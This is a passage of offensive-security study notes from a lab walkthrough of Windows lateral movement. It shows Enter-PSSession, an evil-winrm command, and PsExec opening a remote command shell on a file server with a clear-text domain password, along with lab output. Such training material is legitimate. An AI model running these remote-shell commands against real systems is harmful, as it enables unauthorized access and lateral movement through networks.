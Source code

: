 To interact with the session ID 1 we created, we can issue the **Enter-PSSession** cmdlet followed by the session ID 
``` PowerShell
Enter-PSSession <ID>
```
+ Example:
``` PowerShell
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
+ Once more, we've proven that the session is originating from the target host through yet another lateral movement technique

Can also use: `evil-winrm -i <IP> -u <USER>`
### PsExec
PsExec is a very versatile tool that is part of the SysInternals suite developed by Mark Russinovich
+ It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console

In order to misuse this tool for lateral movement, a few requisites must be met
+ To begin, the user that authenticates to the target machine needs to be part of the Administrators local group
+ In addition, the _ADMIN$_ share must be available and File and Printer Sharing has to be turned on
+ Luckily for us, the last two requirements are already met as they are the default settings on modern Windows Server systems

In order to execute the command remotely, PsExec performs the following tasks:
- Writes **psexesvc.exe** into the **C:\Windows** directory
- Creates and spawns a service on the remote host
- Runs the requested program/command as a child process of **psexesvc.exe**

For this scenario, let's assume we have RDP access as the _offsec_ local administrator on CLIENT74 as we already discovered its clear-text password on FILES04
+ Even though PsExec is not installed by default on Windows, we can easily transfer it on our compromised machine
+ For the sake of usability, the whole SysInternals suite is available on CLIENT74
+ Once logged in as the _offsec_ user on CLIENT74, we can run the 64-bit version of PsExec from **`C:\Tools\SysinternalsSuite`**

In order to start an interactive session on the remote host, we need to invoke **PsExec64.exe** with the **-i** argument, followed by the target hostname prepended with two backslashes
+ We'll then specify **corp\jen** as domain\username and **Nexus123!** as password with the **-u** and **-p** arguments respectively
+ Lastly, we include the process we want to execute remotely, which is a command shell in this case
``` PowerShell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```